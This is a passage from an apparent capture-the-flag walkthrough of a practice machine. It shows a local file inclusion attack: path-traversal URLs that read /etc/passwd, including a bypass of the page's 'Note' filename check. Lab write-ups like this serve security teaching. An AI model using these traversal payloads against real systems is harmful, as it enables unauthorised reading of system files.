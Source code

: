 ![](<../../.gitbook/assets/9 (4).JPG>)

Let's see if we can read local files:

> [http://10.10.10.43/department/manage.php?notes=../../../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=../../../../../../../../etc/passwd)

We get the following error:

> No Note is selected.

The error is interesting, because it's telling us that the result needs to contain a "Note". There may be some string evaluation being done on the input to the "notes" variable which requires some sort of "Note" to be in the string.

Let's try the following:

> [http://10.10.10.43/department/manage.php?notes=ninevehNotes.txt/../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=ninevehNotes.txt/../../../../../../etc/passwd)

We get the same error:

> No Note is selected.

Let's try again with a slightly modifed version of the above (add a slash at the beginning of the value string):

[http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../../../etc/passwd)

![](../../.gitbook/assets/13.JPG)
